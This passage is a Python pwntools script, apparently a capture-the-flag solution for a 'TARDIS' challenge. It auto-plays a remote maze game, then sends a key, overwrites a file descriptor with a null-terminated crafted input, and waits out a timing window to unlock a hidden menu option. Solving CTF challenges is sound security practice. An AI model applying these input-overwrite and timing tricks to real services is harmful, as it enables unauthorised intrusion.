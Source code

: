 ```python
					return (y,x)
			y+=1
		x+=1
		y=0
	return (-1,-1)


t = remote(ip, port)

# start playing the game
for test in range(1000):
	s = t.readuntil(": ")
	if "KEY" in s:
		print s
		break
	MAP = getMap(s)
	GOAL=(-1,-1)
	ME=(-1,-1)
	GOAL=getChar(['E','T'],MAP)
	print GOAL
	ME=getChar(['<','>','V','^'],MAP)
	print ME

	drct = []
	if( ME[0] - GOAL[0] > 0 ):
		if( ME[0] > 0 and MAP[ME[1]][ME[0]-1] !='A'):
			drct+='a'
	elif( ME[0] - GOAL[0] < 0 ):
		if( ME[0] < 19 and MAP[ME[1]][ME[0]+1] !='A'):
			drct+='d'
	if( ME[1] - GOAL[1] > 0 ):
		if( ME[1] > 0 and MAP[ME[1]-1][ME[0]] !='A'):
			drct+='w'
	elif( ME[1] - GOAL[1] < 0 ):
		if( ME[1] < 19 and MAP[ME[1]+1][ME[0]] !='A'):
			drct+='s'
	if drct == [] :
		if ME[0] == GOAL[0] :
			if ME[0] > 0 :
				drct+='a'
			else:
				drct+='d'
		elif ME[1] == GOAL[1] :
			if ME[1] > 0 :
				drct+='w'
			else:
				drct+='s'
			
	print drct
	t.send(drct[0]+'\n')

# Done playing, time to send TARDIS KEY

log.info("sending tardis key...")
t.send("UeSlhCAGEp\n")
print t.recvuntil("Selection: ")
log.info("overwriting fd...")
t.send("11111111\x00\n")
print t.recvuntil("Selection: ")
time.sleep(2) # wait for 2 second so the service's able to call sub_BCB()
log.info("enable choice 3...")
t.send("m+YU\n") # m+YU = 1431907181
t.send("1\n") # turn on the TARDIS console
```
